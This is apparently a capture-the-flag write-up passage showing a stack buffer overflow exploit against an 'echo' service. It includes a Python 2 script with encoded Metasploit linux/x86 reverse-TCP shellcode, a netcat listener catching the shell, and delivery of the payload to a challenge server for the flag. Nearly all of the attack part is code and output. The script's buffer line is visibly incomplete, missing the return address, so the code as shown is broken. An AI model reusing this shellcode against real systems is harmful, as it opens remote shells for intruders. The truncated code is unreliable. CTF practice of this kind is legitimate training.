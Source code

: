 ```
#!/usr/bin/env python2

# msfpayload linux/x86/shell_reverse_tcp LHOST=192.168.94.133 PORT=4444 R | msfencode -b
# '\x0a\x04' -e x86/shikata_ga_nai -t c
# [*] x86/shikata_ga_nai succeeded with size 95 (iteration=1)
shellcode = ("\xbe\x05\x2e\xfb\xea\xda\xc0\xd9\x74\x24\xf4\x5a\x31\xc9\xb1"
"\x12\x31\x72\x12\x83\xea\xfc\x03\x77\x20\x19\x1f\x46\xe7\x2a"
"\x03\xfb\x54\x86\xae\xf9\xd3\xc9\x9f\x9b\x2e\x89\x73\x3a\x01"
"\xb5\xbe\x3c\x28\xb3\xb9\x54\x6b\xeb\x64\x21\x03\xee\x98\x38"
"\x88\x67\x79\x8a\x56\x28\x2b\xb9\x25\xcb\x42\xdc\x87\x4c\x06"
"\x76\x37\x62\xd4\xee\x2f\x53\x78\x87\xc1\x22\x9f\x05\x4d\xbc"
"\x81\x19\x7a\x73\xc1")

# Filler bytes = 260 - 95 bytes taken by shellcode
filler_bytes = "\xCC" * 165

# Updated return address based on output from 'echo'
return_address = "\x10\xd4\xff\xff"

buffer = shellcode + filler_bytes + 

print buffer
```

Set up a netcat listener in a separate shell:

```
root@kali:~# nc -lvp 4444
listening on [any] 4444 ...
```

Run the exploit:

```
root@kali:~# ./echo < input 
```

And get the shell:

```
root@kali:~# nc -lvp 4444
listening on [any] 4444 ...
192.168.94.133: inverse host lookup failed: Unknown server error : Connection timed out
connect to [192.168.94.133] from (UNKNOWN) [192.168.94.133] 43469
```

Now update the return address in the exploit code to match that on the challenge server and deliver it to get your shell and flag (/home/echo/flag):

```
root@kali:~/Desktop# nc ctf-challenge-server 7 < input 
```
